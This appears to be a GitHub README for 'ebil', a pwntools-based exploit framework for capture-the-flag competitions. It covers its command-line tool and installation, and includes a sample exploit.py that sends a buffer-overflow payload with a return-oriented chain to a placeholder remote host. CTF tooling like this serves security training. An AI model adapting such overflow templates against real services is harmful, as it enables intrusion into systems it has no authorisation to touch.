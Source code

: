 # ebil - Exploit code framework for CTFs
ebil is an exploit code framework for CTFs, based on pwntools

Command line tools + python library


![](https://gist.githubusercontent.com/193s/bdcf6ed0864cfb051336/raw/44248717b121f93366ea8dc50762883da3c386a9/ss.png)

### Runtime Environment
#### config file (TODO)
`$HOME/.ebil.conf`


### Command line tools
`ebil new <process>` -> `./exploit.py` with `process` will be generated


### Python library
`pip install ./py`

__usage__:
```sh
./exploit.py   # run locally
./exploit.py p # run locally (pause on breakpoints)
./exploit.py r # remote

```
__exploit.py__:
```python
#!/usr/bin/env python
from pwn  import *
from ebil import *

exec ebil('./vuln', remote=('pwnable.example.com', 35555), args=['wei'])
x86_64()

if LOCAL: log.info('** LOCAL **')

payload = 'a'*140

dummy = 0xbeefbeefbeefbeef
payload += chain([
  elf.symbols['write'], dummy, 1, 0x8049348, 4,
])
send(payload, 200)

print repr(r.recvrepeat())

r.wait_for_close()
```

## Installation
```bash
git clone https://github.com/193s/ebil && cd ebil
install -v ebil /usr/local/bin
pip install ./py
```

## License
Copyright (c) 2015 193s

Published under the GNU GPLv2, see ./LICENSE


